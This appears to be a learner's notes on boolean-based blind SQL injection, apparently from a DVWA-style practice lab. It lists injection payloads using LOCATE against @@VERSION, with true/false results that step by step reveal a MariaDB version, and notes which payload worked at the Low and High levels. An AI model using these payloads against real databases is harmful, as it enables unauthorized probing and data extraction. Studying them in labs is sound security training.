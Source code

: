 ## Blind SQLi
- This one is purely based on trial and error, where you request a query that results true and then request a query that returns false. And by doing that we can eventually guess stuff.
- Below trial and error example is to get information regarding version of the data base
- AUTOMATED TOOL IN PROGESS
```
// ACTUAL VERSION - 10.4.17-MariaDB

1' AND LOCATE(10,@@VERSION); -- -      -> True

1' AND LOCATE(10.,@@VERSION); -- -      -> True

1' AND LOCATE(10.1,@@VERSION); -- -		-> False

1' AND LOCATE(10.4,@@VERSION); -- -      -> True

1' AND LOCATE(10.40,@@VERSION);-- -      -> False
1' AND LOCATE(10.41,@@VERSION);-- -      -> False
1' AND LOCATE(10.42,@@VERSION);-- -      -> False
1' AND LOCATE(10.43,@@VERSION);-- -      -> False
1' AND LOCATE(10.44,@@VERSION);-- -      -> False
1' AND LOCATE(10.45,@@VERSION);-- -      -> False
1' AND LOCATE(10.46,@@VERSION);-- -      -> False
1' AND LOCATE(10.47,@@VERSION);-- -      -> False
1' AND LOCATE(10.48,@@VERSION);-- -      -> False
1' AND LOCATE(10.49,@@VERSION);-- -      -> False

1' AND LOCATE("10.4.",@@VERSION);-- -      -> True

1' AND LOCATE("10.4.0",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.1",@@VERSION);-- -   -> True
1' AND LOCATE("10.4.2",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.3",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.4",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.5",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.6",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.7",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.8",@@VERSION);-- -   -> False
1' AND LOCATE("10.4.9",@@VERSION);-- -   -> False

10.4.1

1' AND LOCATE("10.4.10",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.11",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.12",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.13",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.14",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.15",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.16",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.17",@@VERSION);-- -  -> True
1' AND LOCATE("10.4.18",@@VERSION);-- -  -> False
1' AND LOCATE("10.4.19",@@VERSION);-- -  -> False

10.4.17

1' AND LOCATE("10.4.17.",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.170",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.171",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.172",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.173",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.174",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.175",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.176",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.177",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.178",@@VERSION);-- -         -> False
1' AND LOCATE("10.4.179",@@VERSION);-- -         -> False

1' AND @@VERSION="10.4.17-MariaDB";-- -			-> True

1' AND "10.4.17"=@@VERSION;-- -
```

## Low
- `1' AND @@VERSION="10.4.17-MariaDB";-- -` this worked

## Medium
-


## High
- `1' AND @@VERSION="10.4.17-MariaDB";-- -` this worked
